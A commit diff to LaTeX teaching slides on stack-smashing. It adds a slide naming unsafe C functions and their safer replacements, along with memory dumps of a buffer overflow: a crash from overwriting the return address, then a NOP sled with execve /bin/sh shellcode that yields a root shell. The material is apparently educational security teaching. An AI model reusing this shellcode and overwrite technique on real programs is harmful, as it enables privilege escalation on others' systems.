

Before and after one commit to dbellavista/CeSeNA_Presentations, LaTeX slides (SmashingTheStack/main.tex, which reads SmashingTheStack/bufferoverflow.tex): pages 25 and 26 of 78 before the commit and pages 21 and 27 of 79 after it, joined at a grey line. Compiled offline with pdfLaTeX.

Commit message:
bufferoverflow done

```diff
--- a/SmashingTheStack/bufferoverflow.tex
+++ b/SmashingTheStack/bufferoverflow.tex
@@ -42,6 +42,20 @@
 			root
 		\end{verbatim}
 	\end{block}
+\end{frame}
+
+\subsection{Unsafe functions}
+\begin{frame}[fragile,allowframebreaks]{Unsafe functions}
+\begin{block}{Unsafe C functions}
+	\begin{itemize}
+		\item \emph{gets()}: replace it with \emph{fgets()} or \emph{gets\_s()}
+		\item \emph{strcpy()}: replace it with \emph{strncpy()} or \emph{strlcpy()}
+		\item \emph{strcat()}: replace it with \emph{strncat()} or \emph{strlcat()}
+		\item \emph{sprintf()}: replace it with \emph{snprintf()}
+		\item \emph{printf()}: improper use of it can lead to exploitation, never call it with variable char* instead of constant char*.
+	\end{itemize}
+	Essentially, every C functions that don't check the size of the destination buffers
+\end{block}
 \end{frame}
 
 \subsection{Basic Overflow}
@@ -99,4 +113,8 @@
 		\item By overwriting the return address in a stack frame. Once the function returns, execution will resume at the return address as specified by the attacker, usually a user input filled buffer.
 	\end{itemize}
 \framebreak
-	\begin{block}{Overwriting the return address}
+\begin{columns}[T]
+	\begin{column}{.5\textwidth}
+	\tiny\begin{block}{./note "This is my sixth note"}
+	\tiny\begin{verbatim}
+Memory: addNote(): 80484f9,
@@ -102,0 +124,18 @@
+        address    hex val   string val
+n_esp > bffff450:  bffff450  ?  ?  ?  P
+buffer> bffff454:  73696854  s  i  h  T
+        bffff458:  20736920     s  i
+        bffff45c:  7320796d  s     y  m
+        bffff460:  68747869  h  t  x  i
+        bffff464:  746f6e20  t  o  n
+        bffff468:  b7fc0065  ?  ?     e
+        ...        ...       ...
+        bffff510:  00000000
+        bffff514:  00000000
+endBuf> bffff518:  bffff538  ?  ?  ?  8
+        bffff51c:  080487fb        ?  ?
+        bffff520:  b7fcaffc  ?  ?  ?  ?
+        bffff524:  0804a008        ?
+n_ebp > bffff528:  bffff538  ?  ?  ?  8
+n_ret > bffff52c:  080484ee     ?  ?
+        bffff530:  bffff709  ?  ?  ?
@@ -102,0 +145,8 @@
+        bffff540:  00000002
+	\end{verbatim}
+	\end{block}
+	\end{column}
+	\begin{column}{.5\textwidth}
+	\tiny\begin{block}{./note AAAAAAAAAAAAAAAA...}
+	\tiny\begin{verbatim}
+Memory: addNote(): 80484f9
@@ -102,0 +156,18 @@
+        address    hex val	string val
+n_esp > bffff310:  bffff310  ?  ?  ?
+buffer> bffff314:  41414141  A  A  A  A
+        bffff318:  41414141  A  A  A  A
+        bffff31c:  41414141  A  A  A  A
+        bffff320:  41414141  A  A  A  A
+        bffff324:  41414141  A  A  A  A
+        bffff328:  41414141  A  A  A  A
+        ...        ...       ...
+        bffff3d0:  41414141  A  A  A  A
+        bffff3d4:  41414141  A  A  A  A
+endBuf> bffff3d8:  41414141  A  A  A  A
+        bffff3dc:  41414141  A  A  A  A
+        bffff3e0:  41414141  A  A  A  A
+        bffff3e4:  0804a008        ?
+n_ebp > bffff3e8:  41414141  A  A  A  A
+n_ret > bffff3ec:  41414141  A  A  A  A
+        bffff3f0:  41414141  A  A  A  A
@@ -103,6 +177,55 @@
+        bffff400:  41414141  A  A  A  A
+Segmentation fault
+	\end{verbatim}
+	\end{block}
+	\end{column}
+\end{columns}
+\framebreak
+\tiny\begin{block}{Overwriting the return address}
+	\begin{columns}[T]
+	\begin{column}{.4\textwidth}
+	\tiny\begin{verbatim}
+Memory: addNote(): 80484f9,
+main(): 80484b4, buffer:bffff384
+n_ebp: bffff458, n_esp: bffff380
+m_ebp: bffff468, m_esp: bffff464
+        address    hex val   string val
+n_esp > bffff380:  bffff380  ?  ?  ?  ?
+buffer> bffff384:  90909090  ?  ?  ?  ?
+        bffff388:  90909090  ?  ?  ?  ?
+        ...        ...       ...
+        bffff418:  90909090  ?  ?  ?  ?
+        bffff41c:  31db3190  1  ?  1  ?
+        bffff420:  b0c031c9  ?  ?  1  ?
+        bffff424:  3180cdcb  1  ?  ?  ?
+        bffff428:  2f6850c0  /  h  P  ?
+        bffff42c:  6868732f  h  h  s  /
+        bffff430:  6e69622f  n  i  b  /
+        bffff434:  5350e389  S  P  ?  ?
+        bffff438:  d231e189  ?  1  ?  ?
+        bffff43c:  80cd0bb0  ?  ?     ?
+	\end{verbatim}
+	\end{column}
+	\begin{column}{.4\textwidth}
+	\tiny\begin{verbatim}
+        bffff440:  01b0db31     ?  ?  1
+        bffff444:  909080cd  ?  ?  ?  ?
+endBuf> bffff448:  90909090  ?  ?  ?  ?
+        bffff44c:  90909090  ?  ?  ?  ?
+        bffff450:  90909090  ?  ?  ?  ?
+        bffff454:  0804a008     ?
+n_ebp > bffff458:  90909090  ?  ?  ?  ?
+n_ret > bffff45c:  bffff388  ?  ?  ?  ?
+        bffff460:  bffff600  ?  ?  ?
+m_esp > bffff464:  b8000ce0  ?        ?
+m_ebp > bffff468:  bffff4c8  ?  ?  ?  ?
+m_ret > bffff46c:  b7eb4e14  ?  ?  N
+        bffff470:  00000002
+sh-3.1# whoami
+root
+sh-3.1# exit
+	\end{verbatim}
+	\end{column}
+\end{columns}
 	\end{block}
 \end{frame}
-\subsection{Unsafe functions}
-\begin{frame}[fragile,allowframebreaks]{Unsafe functions}
-C functions that don't check the size of the destination buffers, such as gets(), strcpy(), strcat(), printf(), sprintf(), ...
-\end{frame}
```
Also changed, not shown: SmashingTheStack/bufferoverflow.tex (12 more changed lines).
